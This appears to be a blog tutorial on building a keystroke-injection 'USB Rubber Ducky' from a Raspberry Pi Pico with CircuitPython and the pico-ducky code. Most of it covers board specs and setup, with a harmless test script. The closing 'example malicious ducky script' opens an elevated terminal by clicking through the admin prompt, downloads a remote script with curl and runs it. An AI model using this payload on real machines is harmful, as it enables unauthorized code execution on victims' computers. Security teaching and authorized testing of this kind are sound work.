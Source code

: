 # **USB Rubber Ducky using Raspberry PI Pico**

## **What is Raspberry PI Pico?**

The Raspberry Pi Pico is a microcontroller board developed by the Raspberry Pi Foundation, known for its popular line of single-board computers (SBCs) like the Raspberry Pi 4. The Raspberry Pi Pico was introduced in January 2021 and is designed to provide an affordable and accessible platform for embedded systems, electronics projects, and learning about microcontrollers.

![](../../../attachments/hero-desktop-0be741ca0b96c13025520975475b902c.png)

Key features and specifications of the Raspberry Pi Pico include:

1. **Microcontroller:** The Pico is powered by the RP2040 microcontroller chip, which was also designed by the Raspberry Pi Foundation. The RP2040 is built around a dual-core ARM Cortex-M0+ processor and provides various I/O capabilities for interfacing with sensors, displays, and other hardware components.
2. **Memory:** It has 264KB of SRAM, which is used for program execution and data storage.
3. **GPIO Pins:** The board features 26 general-purpose input/output (GPIO) pins, which can be used for digital input and output, analog-to-digital conversion, PWM (Pulse Width Modulation), and more.
4. **Power Supply:** It can be powered via a micro USB port or an external power supply (3.3V to 5V).
5. **Connectivity:** While the Raspberry Pi Pico itself doesn't have built-in wireless connectivity like Wi-Fi or Bluetooth, you can add these capabilities through external modules or shields.
6. **Programming:** The Pico can be programmed using MicroPython, CircuitPython, C/C++, and other programming languages. It's compatible with popular development environments like Thonny, Visual Studio Code, and PlatformIO.
7. **Cost:** One of the notable aspects of the Raspberry Pi Pico is its low cost, making it an attractive option for educational institutions and hobbyists.

The Raspberry Pi Pico is suitable for a wide range of applications, including robotics, home automation, sensor-based projects, and IoT (Internet of Things) devices. It has gained popularity for its ease of use, extensive documentation, and the support of the Raspberry Pi community.

Overall, the Raspberry Pi Pico is a versatile microcontroller board that provides an excellent platform for learning about embedded systems and developing various electronic projects.

## **Why hackers use Raspberry PI Pico?**

1. **Penetration Testing and Security Research:** Ethical hackers, security researchers, and penetration testers may use Raspberry Pi Pico to assess the security of computer systems, networks, and IoT devices. They can use it to identify vulnerabilities and weaknesses in systems and report them to the owners for mitigation.
2. **Exploiting Vulnerabilities:** Malicious hackers may use a Raspberry Pi Pico to exploit vulnerabilities in systems and gain unauthorized access. They can use the board to automate and script attacks, such as brute-force password cracking or launching malware.
3. **Physical Attacks:** Raspberry Pi Pico can be used in physical attacks where attackers gain physical access to a target system. For example, an attacker could use it to emulate a keyboard and inject malicious commands into a victim's computer when plugged into a USB port.
4. **IoT Device Compromises:** IoT devices are sometimes vulnerable to attacks. Hackers may use Raspberry Pi Pico to reverse engineer and compromise IoT devices, potentially using them as part of a botnet or for other malicious purposes.
5. **Data Exfiltration:** In some cases, attackers may use the board to exfiltrate sensitive data from compromised systems. They can program it to act as a data exfiltration tool, sending stolen information to a remote server.
6. **Network Attacks:** Raspberry Pi Pico can be used as a network tool to intercept or manipulate network traffic. For example, it could be programmed to act as a rogue access point, allowing attackers to perform man-in-the-middle attacks.
7. **Educational and Skill Development:** It's worth noting that some individuals with a strong interest in technology may initially experiment with Raspberry Pi Pico for legitimate educational purposes but may later misuse their knowledge and skills for malicious activities.

## **How make USB Rubbery ducky using Raspberry PI pico**

### **Requirements**

1. Raspberry Pi Pico
2. Micro USB cable
3. Any Text editor like Sublime/Notepad.

### **Setup**

1\. First download the circuit python for your pico from [here](https://circuitpython.org/board/raspberry\_pi\_pico/).

![](../../../attachments/Screenshot 2023-09-29 090721.png)

Note:- If you are using pico w then download this it from [here](https://circuitpython.org/board/raspberry\_pi\_pico\_w/).

2\. Connect your pico to system.

![](../../../attachments/Screenshot 2023-09-29 091159.png)

3\. Now copy paste the  `.uf2` circuit python file to pico. It will disconnect pico and automatically and connect it back to system automatically.

![](../../../attachments/Screenshot 2023-09-29 091213.png)

4\. Now download the latest release of `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` from [here](https://github.com/adafruit/Adafruit\_CircuitPython\_Bundle/releases/) and extract it on your system.

![](../../../attachments/Screenshot 2023-09-29 091315.png)

5\. Navigate to `lib` folder and copy the `adafruit_hid` folder to the pico.

![](../../../attachments/Screenshot 2023-10-02 112726.png)

6\. Now copy the following files and folder from `adafruit_hid/lib` to `lib` folder of pico.

   1. adafruit_debouncer.mpy
   2. adafruit_tricks.mpy
   3. addafruit_wsgi
   4. asyncio

![](../../../attachments/Screenshot 2023-10-02 112911.png)

7\. Now download the `pico-ducky.zip` from github [repository](https://github.com/dbisu/pico-ducky) and extract it.

![](../../../attachments/Screenshot 2023-10-02 113006.png)

8\.  Now copy the following files from the pico-ducky folder to pico drive.

1. boot.py
2. duckyinpython.py
3. code.py
4. webapp.py
5. wsgiserver.py

**From:**

![](../../../attachments/Screenshot 2023-10-02 113116.png)

**To:**

![](../../../attachments/Screenshot 2023-10-02 113116.png)

9\. Now open any text editor you like and copy paste the following ducky script. for testing the pico-ducky only.

**Script:**

```
GUI r
DELAY 1000
STRING notepad.exe
ENTER
DELAY 1000
STRING Hello World!
```

![](../../../attachments/Screenshot 2023-10-02 113641.png)

And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10\. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

[https://vimeo.com/870229586?share=copy](https://vimeo.com/870229586?share=copy)

**Example malicious ducky script:**

[https://vimeo.com/870230398?share=copy](https://vimeo.com/870230398?share=copy)

**Script:**
```
REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4
ALT F4
DELAY 500
GUI r
DELAY 500
STRING wt
REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER
CONTROL SHIFT ENTER
DELAY 1000
LEFT
DELAY 500
ENTER
DELAY 1000
STRING cd .\Downloads\
ENTER
DELAY 500
STRING curl URL/to/your/powershell/script -O script.ps1
ENTER
DELAY 500
STRING .\script.vbs
ENTER
DELAY 500
STRING exit
ENTER
```

## **Summary**

In this blog post, we explore the Raspberry Pi Pico's versatility as a microcontroller board, discussing its programmable features. We investigate the motivations behind hackers and security enthusiasts choosing the Raspberry Pi Pico for ethical hacking and security testing. Furthermore, we provide a step-by-step guide on how to create a USB Rubber Ducky using the Raspberry Pi Pico, making it an accessible tool for various security and automation applications.

References:

[https://github.com/dbisu/pico-ducky](https://github.com/dbisu/pico-ducky)
